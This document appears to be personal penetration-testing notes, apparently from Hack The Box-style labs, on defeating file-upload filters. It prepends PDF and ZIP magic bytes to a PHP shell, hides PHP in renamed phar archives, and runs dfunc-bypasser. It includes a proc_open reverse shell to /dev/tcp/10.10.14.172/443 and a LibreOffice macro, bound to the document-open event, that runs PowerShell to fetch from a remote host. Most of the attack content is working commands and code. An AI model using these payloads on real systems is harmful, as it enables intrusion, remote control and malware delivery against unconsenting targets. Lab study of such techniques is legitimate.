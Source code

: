 ```
printf '%PDF-1.4\n' | cat - shell.php > shell.pdf
```
- pdf
```
printf '\x50\x4B\x03\x04' | cat - shell.php > shell.zip
```
- zip
If none of the changes above work individually, try combination. For example:
- convert to `shell.png` and when uploading change to `shell.php.png` in burp
If upload appends .php to end of file, can use phar
- create shell.php file containing `<?php phpinfo(); ?>`
```
zip shell.phar shell.php
```
- creates phar zip containing shell.php
	- can be accessed via url via phar://path/to/archive.phar/internal/path/to/file.php
if upload filters out .php files:
```
mv shell.phar shell.0xdf
```
- changes name of file to arbitrary file extension to bypass filter
then upload `shell.0xdf` and navigate to file ex: http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell
- .php gets automatically appended at the end
- if works should see php info page
	- look for disable_functions section to see which php functions are prevented to then design php rev shell
	- can also use dfunc-bypasser.py
```
python3 dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell'
```
- if proc_open isn't disabled, create rev.php shell containing
```
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.172/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
```
- then same process as above
```
zip rev.0xdf rev.php
```
- upload rev.0xdf, start listener, access page: http://dev.siteisup.htb/?page=phar://uploads/1f034331994c02c3c036237afbb4975c/rev.0xdf/rev
#### File upload only allows .odt file = malicious macro
- open libreoffice and "save as", name it anything
- Tools -> Macros -> Organize Macros -> Basic
- select current document -> New -> Name the module anything (Evil)
![[Pasted image 20250519182345.png]]
```
Shell("cmd /c powershell iwr [http://192.168.45.160/](http://192.168.45.160/)")
```
![[Pasted image 20250519182544.png]]
- Save, close macro window, back to main document
- Tools -> Customize
![[Pasted image 20250519182636.png]]
- Events tab -> Open Document -> Assign: Macro
![[Pasted image 20250519182725.png]]